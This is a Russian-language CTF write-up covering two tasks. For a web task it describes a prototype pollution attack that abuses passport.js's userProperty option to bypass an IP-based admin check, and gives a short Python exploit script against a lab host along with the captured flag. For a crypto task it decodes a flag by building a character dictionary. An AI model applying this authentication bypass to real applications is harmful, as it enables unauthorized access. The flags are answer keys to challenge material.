 </aside>

## 🌐 Web-3

> Метод решения: **********************************Prototype Pollution**********************************. Нужный нам гаджет находится в библиотеке `passport.js`. ([github](https://github.com/jaredhanson/passport/blob/cfdbd4a762b51e339ebfea931d65bccbbde53282/lib/middleware/initialize.js#L92)) Опция `userProperty` в объекте config отвечает за то, в какое поле объекта `req` `passport` записывает объект с юзером. По умолчанию она равна `“user”`, однако с помощью prototype pollution мы можем переписать её стандартное значение на `“isLocalRequest”`, тем самым сделав `req.isLocalRequest == true` вне зависимости от IP, с которого был послан запрос (т.к. middleware passport’а в цепочке выполняется после middleware, задающего `isLocalRequest`, но перед middleware, *проверяющего* на `req.isLocalRequest`). Значит, выполнив запрос на эндпоинт `/pollute/userProperty/isLocalRequest` и войдя под любым юзернеймом, мы сможем обойти проверку на IP и получить доступ к `/admin/flag`.
> 

```python
import requests as r

with r.Session() as s:
    s.get("http://10.10.10.10:3000/pollute/userProperty/isLocalRequest")
    s.get("http://10.10.10.10:3000/auth?username=haha")
    res = s.get("http://10.10.10.10:3000/admin/flag")
    print(res.text)
```

<aside>
🏁 `nto{pr0t0typ3_pollut10n_g4dged5_f56acc00f5eb803de88496b}`

</aside>

## 🔑 Crypto-1

> Метод решения: **Словарь символов**. Символы текста кодируются однозначно и поочередно. Поэтому можно построить словарь для всех доступных ASCII символов, затем сопоставить полученные шифротексты с зашифрованным флагом и получить исходный код.
> 

```python
...

flag = [277, 92, 775, 480, 160, 92, 31, 586, 277, 801, 355, 489, 801, 31, 62, 926, 725, 489, 160, 92, 31, 586, 277, 801,
        355, 489, 1281, 62, 801, 489, 1175, 277, 453, 489, 453, 348, 725, 31, 348, 864, 864, 348, 453, 489, 737, 288,
        453, 489, 889, 804, 96, 489, 801, 721, 775, 926, 1281, 631]
abc = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_{}"
hashed = DihedralCrypto(1337).hash(abc)

for key in flag:
    for i in range(len(abc)):
        if hashed[i] == key:
            print(abc[i], end="")
```
